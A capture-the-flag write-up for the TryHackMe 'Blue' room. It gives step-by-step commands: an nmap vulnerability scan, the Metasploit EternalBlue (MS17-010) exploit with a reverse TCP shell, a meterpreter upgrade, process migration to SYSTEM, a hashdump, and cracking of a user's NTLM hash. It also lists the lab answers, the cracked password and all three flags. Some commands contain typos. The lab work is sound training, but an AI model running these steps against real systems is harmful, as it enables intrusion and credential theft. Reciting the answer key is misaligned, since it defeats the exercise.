









"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the SMB (Server Message Block) protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.
EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.
This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).
### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)
## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later). 
1. How many ports are open with a port number under 1000?
2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
We can answer these questions with just one nmap scan:
```
nmap --script vuln target IP
```
This will return  all open ports (9 in total, **3** under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or **ms17-010**). 

## Gain Access
To get through this section you'll need to install the [Metasploit framework](https://www.metasploit.com/). Then:
1. become root: `sudo su`
2. open up metasploit: `msfconsole`
3. set your local IP address to LHOST: `set LHOST` `tun0` and `LPORT` to a random port that is not already in use (e.g. `set LPPRT 4444`)
4. search metasploit's database for the EternalBlue exploit: `search ms17-010`
	- 
5. use the exploit: `use`
6. show the options for the exploit: `show options`. You'll get "**RHOSTS**" as the first result
	- 
7. now set RHOSTS as the target machine's IP address: `set RHOSTS` target_ip
8. paste 
```
set payload windows/x64/shell/reverse_tcp
```
## Escalate
Background the session with Ctrl+z (then press `y` when prompted)
Let's now search the Metasploit database for info on how to convert a shell to a meterpreter shell:
`search shell_to_meterpreter`



This way we will get the answer: `post/multi/manage/shell_to_meterpreter`
Use this post module with `use 0` and show its' options with `show options`



Since we have two sessions going on, we will have to change the `SESSION` option to 1 with `session -i 1`. To know to which session you have to switch, use the command `sessions -l`



Now run the exploit with `run`
Once we get the `[*] Stopping exploit/multi/handler` message, press `Ctrl+c` to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).




The getsystem command will now return this:


You can also list oll the processes with the ps command and you can migrate to one of these.



Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate` and the PID (e.g. `migrate 2868`).
## Cracking
Now use the hashdump command



Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with `echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
> This will return alqfna22 as the password.



## Find flags!

The first flag is located in the C:\ folder: 
> flag{access_the_machine}

The second flag is loceated in the C:/Windows/System32/config folder: 
> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:
> flag{admin_documents_can_be_valuable}

That' all, hope i helped.